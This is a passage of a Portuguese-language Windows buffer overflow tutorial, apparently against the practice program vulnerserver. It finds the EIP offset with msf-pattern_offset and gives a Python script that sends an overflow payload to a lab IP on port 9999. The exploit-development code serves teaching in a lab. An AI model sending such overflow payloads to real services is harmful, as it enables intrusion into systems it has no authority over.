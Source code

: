 Vamos monitorar o envio com o Immunity.

![Enumaração do comando.](/std/winbof/winbof-81.png)

Encontramos o offset 6f43386f, consultando no msf-patter_offset:

```bash
$ msf-pattern_offset -l 3000 -q 6f43386f 
[*] Exact match at offset 2005
```

Para atingir o EIP, precisamos de 2005 bytes, vamos atualizar nosso script e monitorar o comportamento.

xpllter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payoad
offset = 3000

# payload
payload = b"LTER /."
payload += b"A" * 2005
payload += b"B" * 4
payload += b"C" * (offset - 2005 - 4)

# criando conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado.")
```
